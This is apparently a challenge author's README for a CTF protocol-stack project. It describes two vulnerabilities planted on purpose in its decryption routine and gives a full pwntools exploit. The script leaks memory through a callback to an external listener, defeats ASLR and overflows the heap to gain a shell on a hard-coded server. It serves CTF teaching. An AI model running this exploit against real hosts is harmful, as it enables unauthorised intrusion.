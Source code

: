 # shadow
The target of this project is to build a user-mode protocol stack. I use coroutine for the support of asyncio and wapper the detail of network transport. So it's will be easy to extern a protocol.

## RWCTF
In the commit tag RWCTF, I set two vulnerabilities for exploit. Both two vulnerabilities are in function SC::dec_proto. 
The first one is  [here](https://github.com/zh-explorer/shadow/blob/master/proto/SC.cpp#L180). The should be a pkcs5 padding for block cipher. But the type of dec_data is signed char * so the auto type will be signed char. So negative padding will cause a memory leak. We can leak heap bash, libc bash and so on from it.

The second one is [here](https://github.com/zh-explorer/shadow/blob/master/proto/SC.cpp#L146). We can control the pack's length and random_len filed and make data_size to -1. This will cause an infinite read. Because of the coroutine, the read will be blocked and run other code when we do not send any data to socket fd. The heap overflow will overwrite some vtable use by another coroutine. Then we can set PC to one gadget get a shell.

By the way, the heap layout is always unstable. So we need some heap spray technology to fill heap with one gadget.

```python
import pwn
import time
import crypto_tools
import socket
import struct
import sys

#pwn.context.proxy = "127.0.0.1"
#pwn.context.log_level = 'debug'
password = 'meiyoumima'

def create_pack(data):
    timestamp = crypto_tools.packed_timestamp()
    noise = crypto_tools.random_byte(8)
    token = crypto_tools.sha256(password + timestamp[::-1] + noise)[:16]
    random_len = 10

    data_len = random_len + len(data) + 80

    data_buf = bytearray()
    data_buf += timestamp[::-1] + noise
    data_buf.append(1)
    data_buf += struct.pack(b'!L', data_len)[::-1]

    data_buf.append(random_len)
    data_buf += crypto_tools.random_byte(10)

    random_data = '\x00'.ljust(random_len,'\x00')
    random_data = bytearray(random_data)

    data_buf += crypto_tools.sha256(token+data_buf+'\x00'*32+data+'\x00'*random_len)
    data_buf += data

    aes = crypto_tools.AES(token)

    data_buf = token + aes.encrypt(bytes(data_buf))
    data_buf += random_data

    return data_buf

def padding(data):
    pad_len = 16 - len(data)%16;
    return data + chr(pad_len)*pad_len

def leak(size):
    global libc_base
    global heap_base
    p = pwn.remote("54.153.22.136", port)
    l = pwn.listen(9999)
    
    ip = socket.inet_aton("40.73.17.40")
    #ip = socket.inet_aton("47.112.138.86")
    rport = pwn.p16(socket.htons(9999))
    
    pack =  '\x01\x01\x01' + ip + rport
    pack = padding(pack)
    
    pay = create_pack(pack)
    p.send(pay)
    
    s = l.wait_for_connection()
    
    p.recv()
    
    pack = 'a'*size+'\x80'*0x10
    pay = create_pack(pack)
    p.send(pay)

    data = l.recv()
    print data.encode('hex')
    if size == 0x100:
        libc_base = pwn.u64(data[288:288+8]) - 0x3ebca0
    if size == 0x10:
        heap_base = pwn.u64(data[72:80]) - 83120 - 0x410
    
    l.close()
    p.close()

def overflow():
    p1 = pwn.remote('54.153.22.136', port)
    p2 = pwn.remote("54.153.22.136", port)

    timestamp = crypto_tools.packed_timestamp()
    noise = crypto_tools.random_byte(8)
    token = crypto_tools.sha256(password + timestamp[::-1] + noise)[:16]
    random_len = 10
    data_buf = bytearray()
    data_buf += timestamp[::-1] + noise
    data_buf.append(1)
    data_buf += struct.pack(b'!L', 89)[::-1]
    data_buf.append(random_len)
    data_buf += crypto_tools.random_byte(10)
    data_buf += "\x00"*32

    aes = crypto_tools.AES(token)

    data_buf = token + aes.encrypt(bytes(data_buf))

    p1.send(data_buf)
    
    p2.send('aaa')

    data = pwn.p64(one_gadget) + 'a'*24 + pwn.p64(magic-0x10) + pwn.cyclic(0x100, n = 8)
    p1.send(data)

    p1.interactive()


port = int(sys.argv[1])
libc_base = 100
heap_base = 100

leak(0x10)
leak(0x100)

print hex(libc_base)
print hex(heap_base)

one_gadget = libc_base+0x4f322
magic = heap_base+0x217d10-0x20
overflow()
```